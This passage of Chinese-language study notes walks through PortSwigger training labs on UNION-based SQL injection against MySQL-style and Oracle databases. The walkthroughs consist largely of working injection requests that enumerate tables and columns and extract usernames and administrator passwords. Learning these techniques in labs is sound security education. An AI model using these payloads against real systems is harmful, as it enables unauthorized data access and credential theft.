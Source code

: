 1. 這是一個正常的請求，然而依據題意這裡存在 SQLi 漏洞：
    ```http
    GET /filter?category=Gifts HTTP/2
    ```
2. 先查看有哪些 table 並判斷欄位數量：
    ```http
    GET /filter?category=Gifts'+UNION+SELECT+table_name+FROM+information_schema.tables-- HTTP/2 -> 500

    GET /filter?category=Gifts'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables-- HTTP/2 -> 200
    ```
3. 找到一個叫做 `users_qtpjug` 的 table，接著查看該 table 有哪些 column
    ```http
    GET /filter?category=Gifts'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_qtpjug'-- HTTP/2
    ```
4. 找到兩個 column：`username_unbxis`、`password_xpgyxb`，將其資料擷取出來：
    ```http
    GET /filter?category=Gifts'+UNION+SELECT+username_unbxis,password_xpgyxb+FROM+users_qtpjug-- HTTP/2
    ```
5. 成功取得 administrator 的密碼，使用取得的密碼登入後完成此 Lab。
:::

### 列出 Oracle 資料庫內容

在 Oracle 中，您可以透過以下方式找到相同的資訊：

* 您可以透過查詢 `all_tables` 來列出資料表：

```sql
SELECT * FROM all_tables
```

* 您可以透過查詢 `all_tab_columns` 來列出欄位：

```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

::: tip Lab: [SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

1. 這是一個正常的請求，依據題意此處存在 SQLi 漏洞：
    ```http
    GET /filter?category=Pets HTTP/2
    ```
2. 擷取所有 table 的名稱並判斷欄位數量
    ```http
    GET /filter?category=Pets'+UNION+SELECT+table_name+FROM+all_tables-- HTTP/2 -> 500

    GET /filter?category=Pets'+UNION+SELECT+table_name,NULL+FROM+all_tables-- HTTP/2 -> 200
    ```
3. 找到一個 table 名為 `USERS_NAGZJG`，接著擷取此 table 的 column 有哪些：
    ```http
    GET /filter?category=Pets'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_NAGZJG'-- HTTP/2
    ```
4. 找到兩個 column：`USERNAME_AGYXUN`、`PASSWORD_FYHIWX`，發送請求列出所有帳號密碼：
    ```http
    GET /filter?category=Pets'+UNION+SELECT+USERNAME_AGYXUN,PASSWORD_FYHIWX+FROM+USERS_NAGZJG-- HTTP/2
    ```
5. 成功取得 administrator 的密碼，透過取得的密碼登入後完成此 Lab。
:::
